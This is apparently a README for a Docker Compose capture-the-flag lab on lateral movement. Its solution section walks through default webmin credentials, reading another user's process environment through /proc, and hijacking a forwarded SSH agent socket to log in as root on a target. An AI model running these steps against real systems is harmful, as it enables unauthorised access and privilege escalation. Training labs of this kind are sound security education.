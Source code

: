 # Lateral-Movement-Example
Docker Compose Project which showcases Lateral Movement possibilities


## Solution

Log in on webmin with creds root:password on port 10000

Go to terminal

Use ssh key to log in as alice on jumphost

```
ssh -i /root/.ssh/alice alice@jumphost
```

find out about sudo

```
sudo -l
```

Find out that bob is logged in, and that he uses a forwarded ssh agent. 

```
sudo ps aux | grep ssh
sudo pstree -p bob
sudo -u bob cat /proc/20/environ
```

Use the forwarded ssh agent to log in as bob on the target machine

```
sudo SSH_AUTH_SOCK=/tmp/ssh-XXXXiyyyyy/agent.xx ssh root@target
```

output the flag

```
cat /root/flag.txt
```